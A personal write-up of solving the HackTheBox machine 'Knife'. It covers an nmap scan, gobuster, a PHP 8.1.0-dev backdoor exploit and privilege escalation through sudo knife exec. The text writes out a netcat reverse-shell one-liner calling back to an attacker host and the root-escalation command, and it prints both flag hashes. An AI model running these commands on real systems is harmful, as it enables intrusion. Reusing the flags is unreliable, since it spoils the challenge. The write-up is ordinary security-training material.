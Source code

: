 This is my second box I will be attempt to pwn on HackTheBox. Let's get into it!

I did an nmap scan of the box's ip. The results showed that ports 22 and 80 were open. Specifically, port 80 was being used for an Apache web server. This is probably te best lead to go on.

        22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
        80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))

I navigated to the web server and was greeted by an apparent medical site for a company called EMA. The web site was very bare bones. In fact, nothing on the web page was interactable.

I was at a lost at what to do, so I did some googling and learned about gobuster. It's a package that attempts directory traversal through a wordlist. The exact command I used was: gobuster dir -u 10.10.10.242 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x txt
I found that /server-status was a valid directory, but I didn't have permissions to access it. Directory enumeration ended up to be a dead end.

Next, I decided to take a look at the web server using inspect element. By looking at the header of 10.10.10.242 in the network tab, I was able to see that the website was being powered by PHP/8.1.0-dev.
I searched for exploits regarding that PHP version and came across this: https://www.exploit-db.com/exploits/49933. Pretty sick find.

After running the code, I got a shell. I ran "id" and found that I was logged in as a user named "james". I ran the "ls" command and saw listed directories. I tried to navgate through the directories but that didn't work. However, other commands seemed to be working fine. I decided to use a reverse shell to see if that would allow me to traverse through directories.

I looked at this website: https://pentestbook.six2dez.com/exploitation/reverse-shells for commands that can be used to create reverse shells. I used the first command underneath the bash section: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.57 1337 >/tmp/f and generated a reverse shell.

The reverse shell allowed me to navigate through the directories! I went to /home/james and saw a file called user.txt. That's the first flag: 17c3bb751e9961c0cbc0e1de916a4bd9

Now I had to do some privesc to get root. I tried sudo -l and saw this pop up:
User james may run the following commands on knife:
        
        (root) NOPASSWD: /usr/bin/knife

I ran knife -h to see what the available options were, but I didn't expect the help page to be so massive. A command that caught my eye was "knife exec". According to the knife documentation (https://docs.chef.io/workstation/knife_exec/), this command is able to run Ruby scripts. The syntax for running Ruby scripts is: knife exec -E 'RUBY CODE'

I tried to figure out how to use Ruby to elevate privileges, but was not able to grasp most of it. I am still very new to scripting! I decided to change tactics.

I decided to go on gtfobins.github.io. This site is really nifty as it provides a massive amount of ways to use binaries to escalate priviliges. I searched up knife and found this code: sudo knife exec -E 'exec "/bin/sh"'. Since this knife binary is able to be run as sudo by james, this command makes it so that the sudo privileges are not dropped after running the command, essentially granting root access. 

After running the command, I ran "whoami" and saw that I was now the root user. I navigated to the root folder and got the root.txt hash: 449e1149cf6e5a01d86acfe53a80780d.

Overall, I can see why this box had a difficult rating of "easy." While attempting to solve the box, I got stuck in many places because I wasn't sure what exactly I was supposed to be looking for. However, now that I am familiar with the process, I can see how each of the steps from attaining a foothold to escalating privileges make a lot of sense.
